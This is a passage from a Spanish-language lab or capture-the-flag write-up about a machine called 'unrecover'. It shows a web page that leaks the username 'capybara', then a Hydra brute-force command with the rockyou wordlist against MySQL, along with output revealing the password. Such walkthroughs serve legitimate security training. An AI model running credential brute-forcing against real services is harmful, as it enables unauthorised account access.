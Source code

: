 ![image-center](/assets/images/posts/unrecover-web.png){: .align-center}

La página corresponde a un `Zoo` de capybaras, muy tiernos por cierto. Además se nos da la bienvenida como el usuario `capybara`, esto ya nos da una pista sobre un usuario válido dentro de un servicio


# Intrusión / Explotación
---
## MySQL Credentials Bruteforcing

Podemos intentar ataques de fuerza bruta a los diversos servicios empleando el usuario `capybara`, sin embargo luego de algunas pruebas solamente he obtenido resultados contra el servicio de `mysql`

~~~ bash
hydra -l capybara -P /usr/share/wordlists/rockyou.txt mysql://unrecover.dl
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-08 10:53:40
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://unrecover.dl:3306/
[3306][mysql] host: unrecover.dl   login: capybara   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-08 10:53:42
~~~
